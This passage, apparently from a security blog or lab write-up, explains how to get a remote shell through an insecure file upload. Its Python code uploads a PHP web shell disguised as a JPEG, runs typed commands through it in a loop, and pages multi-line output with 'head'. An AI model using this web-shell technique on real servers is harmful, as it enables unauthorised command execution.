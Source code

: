 This can then be posted to the upload url
using the session that we're logged into the bla account
on.

    :::python
    s.post(upload_url, files=files)

Now that the file with the payload has been uploaded,
all that needs to be done is to directly access it via
a GET request and we'll have the command output.

    :::python
    get = s.get(image_url)

To demonstrate I used the python shell with the previously
authenticated session object to post a payload
that will cat the hostname.

![Interactive post and execute](/static/blog/images/fake-shell-with-python-requests/interactivecmd.png)

All of this can be put into a while loop that queries
the user for a command and prints the result.

    :::python
    while cmd != 'exit':
        cmd = input('> ')
        get = s.get(upload_url)
    
        files = [
            ('uploadedfile', 
                ('boop.php',
                '<?php echo exec("' + cmd + '");?>',
                'image/jpeg')
            )
        ]
        s.post(upload_url, files=files)
        get = s.get(image_url)
    
        print(get.text)

We now have a fully interactive shell where we can
enter commands and see the output immediately! There
did seem to be a slight issue though. Only one line
of output from the command was being returned.

![Only one line of output](/static/blog/images/fake-shell-with-python-requests/oneline.png)

To fix this, I changed the payload so that the
command entered was being piped into the "head" command.
Then, in a loop, the command would repeatedly be called
while the line of output of the command that was being
read would be incremented by 1. This was done until the
output was the same twice, indicating that the line counter
had reached the end of the output.

    :::python
    while get.text != old_get or i > 100:
        old_get = get.text
        files = [
                ('uploadedfile', 
                ('boop.php',
                '<?php echo exec("' + cmd + ' | head -n ' + str(i) + '");?>',
                'image/jpeg')
            )
        ]
        s.post(upload_url, files=files)
        get = s.get(image_url)
        i += 1
    